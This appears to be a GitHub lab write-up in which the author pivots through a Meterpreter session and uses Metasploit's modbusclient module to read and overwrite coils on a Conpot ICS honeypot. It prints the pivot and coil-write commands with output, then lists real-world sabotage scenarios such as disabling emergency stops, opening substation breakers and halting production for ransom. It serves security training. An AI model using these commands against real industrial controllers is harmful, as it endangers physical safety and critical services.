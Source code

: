 # ICS Honeypot Attack Lab: Modbus Exploitation via Conpot

This lab simulates a real-world ICS attack scenario by pivoting through a compromised Windows jump box and exploiting an industrial honeypot (Conpot) using Modbus protocol commands. The target runs on a segregated ICS subnet.

---

## Lab Setup

### Network Structure

```
Kali (Attacker)
   ↳ Meterpreter Session on Windows Jump Box (192.168.1.150)
       ↳ Pivot Route to ICS Subnet (10.0.0.0/24)
           ↳ Conpot Modbus Honeypot (10.0.0.200:5020)
```

### Tools Used

| Tool              | Purpose                       |
|------------------|-------------------------------|
| Kali Linux        | Attacker box                 |
| Metasploit        | Payloads, sessions, routing |
| Conpot            | ICS Honeypot (Modbus)        |
| Python + XML      | Template analysis            |

---

## Reconnaissance

### Target Identified via `ps aux`
Conpot is confirmed running on the honeypot with the Modbus template:

```bash
ps aux | grep conpot
```

### Modbus Template Location

```bash
find ~/conpot-env -name modbus.xml
```

Located at:
```
/home/username/conpot-env/lib/python3.8/site-packages/conpot/templates/default/modbus/modbus.xml
```

---

## Pivot: Route Through Meterpreter

```bash
meterpreter > run autoroute -s 10.0.0.0/24
```

> Adds a route from the jump box to the ICS subnet via `192.168.1.150`

---

## Exploitation with `modbusclient`

### 1. **Read Coil Values**

```bash
use auxiliary/scanner/scada/modbusclient
set RHOSTS 10.0.0.200
set RPORT 5020
set ACTION READ_COILS
run
```

> Successfully read coil address 1

---

### 2. **Write to a Coil**

```bash
set ACTION WRITE_COIL
set DATA_ADDRESS 1
set DATA 0
run
```

## Output:
```
10.0.0.200:5020 - Value 0 successfully written at coil address 1
```

---

## Sample Output

![Successful write coil](screenshots/Changed%20Coil%20Value%20in%20PLC.png)

---

## Analysis of `modbus.xml`

Extracted coil and register addresses from the honeypot XML:

```xml
<type>COILS</type>
<starting_address>1</starting_address>
<size>128</size>
```

---

## Summary

| Phase              | Result                   |
|-------------------|--------------------------|
| Initial Access     | Meterpreter session on Jump Box |
| Pivot              | `autoroute` to ICS subnet |
| Conpot Verification| Process running with Modbus |
| Read/Write Coils   | Successful via `modbusclient` |

---

## Ethical Notice

This lab is purely for educational and research purposes in a closed, controlled environment. No real systems were accessed.

---

# Key Takeways
This lab simulated a cyberattack on an ICS network in a controlled environment. The goal was to replicate a scenario where an attacker utilizes open source intelligence (OSINT) to perform reconnaisance, pivot into an isolated ICS network, and manipulate values that affect the functions of a PLC through the Modbus Protocol. 
The exploit used allowed me to read/write coils (or single-bit memory locations). These coils represent on/off states of digital outputs, such as switches, motors, or alarms. 1 = on, 0 = off. 

set ACTION WRITE_COIL 
set DATA_ADDRESS 1 
set DATA 0
run

This series of commands in the msfconsole exploit being used allowed me to write new data to the coil within memory address 1, changing it's status to 0, or off. This remotely disabled the device, and in the real world could have amounted to turning off a fan, pump, valve, circuit breaker, or sensor of any type. 

Modbus protocol offers no authentication/encryption, therefore any level of network access can send these commands. 

# real world examples with this exploit
## 1) Disabling Safety Systems
   set coil controlling emergency stop to off, preventing automatic shutoff in case of dangerous conditions

## 2) Overflowing Tanks
   Set coil value attributed to opening a valve to on permenantly, causing tanks to overflow, leading to flooding, contamination, or material shortages

## 3) Damaging Machinery
   Toggle coil controlling motor stop/start in rapid succession at a manufacturing plant, causing mechanical stress, overheating, or damage to motors. 

## 4) Blacking out substation
   Set coil to open a circuit breaker at power grid substation, cutting off power to an entire section of a grid. 

## 5) Halting production for ransom
   Disable key actuators such as robot arms, mixers, and presses to force downtime until ransom is paid

# Next Steps

- Simulate unauthorized sensor manipulation
- Add logging and alerting via Conpot
- Expand to protocols like S7, BACnet, or DNP3
